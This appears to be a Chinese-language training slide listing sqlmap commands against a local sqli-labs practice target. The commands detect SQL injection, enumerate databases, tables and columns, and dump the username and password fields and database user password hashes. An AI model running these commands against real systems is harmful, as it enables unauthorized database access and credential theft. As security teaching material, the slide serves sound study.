

# 自动渗透工具 - sqlmap
| 功能 | 示例 |
| --- | --- |
| 判断是否存在注入 | sqlmap -u http://127.0.0.1/sqli-labs/Less-1/?id=1 |
| 读取日志的请求进行检测 | sqlmap -l request.txt |
| 查询当前的所有数据库 | sqlmap.py -u http://127.0.0.1/sqli-labs/Less-1/?id=1 --dbs |
| 获取数据库下的表名 | sqlmap.py -u http://127.0.0.1/sqli-labs/Less-1/?id=1 -D security --tables |
| 获取表中的字段名 | sqlmap.py -u http://127.0.0.1/sqli-labs/Less-1/?id=1 -D security -T users --columns |
| 获取字段的内容 | sqlmap.py -u http://127.0.0.1/sqli-labs/Less-1/?id=1 -D security -T users -C username,password --dump |
| 获取数据库的所有用户 | sqlmap.py -u http://127.0.0.1/sqli-labs/Less-1/?id=1 --users |
| 获取数据库用户的密码 | sqlmap.py -u http://127.0.0.1/sqli-labs/Less-1/?id=1 --password |
| 获取当前数据库的名称 | sqlmap.py -u http://127.0.0.1/sqli-labs/Less-1/?id=1 --current-db |
| 获取当前数据库的用户 | sqlmap.py -u http://127.0.0.1/sqli-labs/Less-1/?id=1 --current-user |